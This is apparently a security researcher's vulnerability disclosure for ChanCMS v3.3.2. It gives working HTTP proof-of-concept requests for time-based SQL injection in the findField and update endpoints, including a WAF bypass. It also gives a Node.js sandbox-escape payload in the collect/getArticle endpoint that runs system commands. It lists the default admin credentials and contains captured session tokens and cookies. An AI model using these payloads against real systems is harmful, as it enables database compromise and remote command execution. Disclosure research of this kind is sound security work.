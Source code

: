 ```yaml
---
title: ChanCMSv3.3.2
---
```


*Author：Narcher*	*Date：2025/10/5*	*Category：Vulnerability Discovery*

<!--more-->

> Project Source Code: [ChanCMS: ChanCMS is a high-quality and practical CMS system developed based on Node, Express 5, MySQL, and Vue 3. Lightweight, flexible, stable, high-performance, and easily extensible, it makes development simpler.](https://gitee.com/chancms/ChanCMS)
>
> Project Version: v3.3.2

### /cms/article/findField

After downloading the source code, deploy it directly and log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing reveals that the `findField` function in `/cms/article/findField?cid=8` does not validate the input parameters.

<img src="ChanCMSv3.3.2/image-20251005195854334.png" alt="image-20251005195854334" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251005195950511.png" alt="image-20251005195950511" style="zoom:50%;" />

By modifying the `cid` parameter, SQL injection can be performed:

<img src="ChanCMSv3.3.2/image-20251005203317104.png" alt="image-20251005203317104" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251005200056475.png" alt="image-20251005200056475" style="zoom:50%;" />

Directly modifying the URL requires adding a token, which is obtained after logging in as **chancms**.
 The contents of `d.txt` are as follows:

```
GET /cms/article/findField?cid=1 HTTP/1.1
Host: 192.168.58.128:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk2NTgwNTAsImV4cCI6MTc1OTc0NDQ1MH0.TUAhZOpCwbRrLIm47WHbfneK-lomsez0IJT9LwPgqIM
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk2NTgwNTAsImV4cCI6MTc1OTc0NDQ1MH0.TUAhZOpCwbRrLIm47WHbfneK-lomsez0IJT9LwPgqIM; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list
Connection: keep-alive
```

When running locally you can see a WAF is present, but it failed to block the payload:
 `/cms/article/findField?cid=1+AND+(SELECT+1103+FROM+(SELECT(SLEEP(5)))vbUE)`

<img src="ChanCMSv3.3.2/image-20251005200453009.png" alt="image-20251005200453009" style="zoom:50%;" />

The SQL injection is successful.



### /cms/article/update

Log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing revealed that the `update` function in `/cms/article/update` does not validate the `cid` parameter.

<img src="ChanCMSv3.3.2/image-20251005201715297.png" alt="image-20251005201715297" style="zoom:50%;" />

```
[Vuln: sqldet]
Target           "http://192.168.58.128:3000/cms/article/update"
VulnType         "blind-based/default"
Payload          "(select*from(select+sleep(2)union/**/select+1)a)"
Position         "body"
ParamKey         "id"
ParamValue       "(select*from(select+sleep(2)union/**/select+1)a)"
sleep_time       "2000"
p_time           "11"
n_time           "4013"
stat             "{\"normal\":{\"samples\":[107,112,88,75,58,56],\"avg\":82.66666666666667,\"std_dev\":21.830152440043918,\"sleep_time\":2},\"sleep_0_time\":11,\"quick_check\":{\"samples\":[4013],\"sleep\":2},\"verify\":{\"samples\":[6013,6012,6011],\"sleep\":3}}"
title            "Generic MySQL time based case [number/column]"
type             "time_based"
avg_time         "82"
std_dev          "21"
```

<img src="ChanCMSv3.3.2/image-20251006123321111.png" alt="image-20251006123321111" style="zoom: 33%;" />

 The contents of `d.txt` are as follows:

```
POST /cms/article/update HTTP/1.1
Host: 192.168.58.128:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MjQ4NDgsImV4cCI6MTc1OTgxMTI0OH0.9PY83sb3PNmXkGHggc0SqMffRmb6gXWc8vobB4GhMzw
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MjQ4NDgsImV4cCI6MTc1OTgxMTI0OH0.9PY83sb3PNmXkGHggc0SqMffRmb6gXWc8vobB4GhMzw
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cid=111111
```



### /cms/collect/getArticle

Although the `getArticle` function in `app/modules/cms/controller/collect.js` uses `app/middleware/guard.js` as a WAF to intercept requests, the WAF is incomplete and can be bypassed.

<img src="ChanCMSv3.3.2/image-20251006161304637.png" alt="image-20251006161304637" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251006161531724.png" alt="image-20251006161531724" style="zoom:50%;" />

First, log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`:

<img src="ChanCMSv3.3.2/image-20251006161659610.png" alt="image-20251006161659610" style="zoom: 33%;" />

POC:

```
POST /cms/collect/getArticle HTTP/1.1
Host: 192.168.58.128:3000
Content-Length: 301
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
Accept: application/json, text/plain, */*
Content-Type: application/json; charset=UTF-8
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MzIxNjMsImV4cCI6MTc1OTgxODU2M30.urN857ZVdmYALnKilKjCQUKQreHxLvibEcK1gHrMnWE
Origin: http://192.168.58.128:3000
Referer: http://192.168.58.128:3000/public/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MzIxNjMsImV4cCI6MTc1OTgxODU2M30.urN857ZVdmYALnKilKjCQUKQreHxLvibEcK1gHrMnWE; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list
Connection: keep-alive

{"taskUrl":"http://opinion.people.com.cn/n1/2025/1006/c1003-40577077.html","titleTag":"#newstit","articleTag":".rm_txt_con","parseData":"return (p => p.getBuiltinModule('child_process').spawnSync('whoami', [], {}).output[1].toString())(this.constructor.constructor('return process')())","charset":"1"}
```

<img src="ChanCMSv3.3.2/image-20251006161752136.png" alt="image-20251006161752136" style="zoom:50%;" />

Allows direct command execution.

If the target Node.js is an older version, the following POC can be used:

```
return this.constructor.constructor('return process')().mainModule.require('child_process').execSync('id').toString()
```



### /cms/model/hasUse

Log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing revealed that the `hasUse` function in `/cms/model/hasUse?id=1` does not validate the `id` parameter.

<img src="ChanCMSv3.3.2/image-20251006170206614.png" alt="image-20251006170206614" style="zoom:67%;" />

<img src="ChanCMSv3.3.2/image-20251006200453286.png" alt="image-20251006200453286" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251006200511107.png" alt="image-20251006200511107" style="zoom:50%;" />

